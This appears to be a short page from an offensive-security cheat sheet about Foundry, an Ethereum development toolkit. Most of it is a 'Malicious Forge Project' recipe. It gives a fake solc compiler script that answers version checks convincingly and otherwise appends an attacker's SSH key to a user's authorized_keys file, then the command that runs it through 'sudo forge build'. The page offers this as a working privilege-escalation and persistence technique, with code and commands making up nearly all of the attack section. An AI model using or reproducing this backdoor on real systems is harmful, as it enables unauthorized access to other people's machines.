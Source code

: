 # Blockchain

- [Resources](#resources)

## Table of Contents

- [Foundry](#foundry)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Foundry | Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust. | https://github.com/foundry-rs/foundry |

## Foundry

### Malicious Forge Project

#### Create Project

```c
$ forge init /PATH/TO/FOLDER/<FOLDER> --no-git --offline
```

#### Malicious Solidity Compiler (solc)

```c
#!/bin/bash
if [[ $1 == "--version" ]]; then
    echo "solc, the solidity compiler"
    echo "Version: 0.8.17+commit.8df45f5f.Linux.g++"
else
    mkdir -p /home/<USERNAME>/.ssh
    echo "<SSH_KEY>" >> /home/<USERNAME>/.ssh/authorized_keys
    chmod 700 /home/<USERNAME>/.ssh
    chmod 600 /home/<USERNAME>/.ssh/authorized_keys
fi
```

#### Execution

```c
$ chmod 777 solc
$ sudo forge build --use /PATH/TO/FILE/solc
```
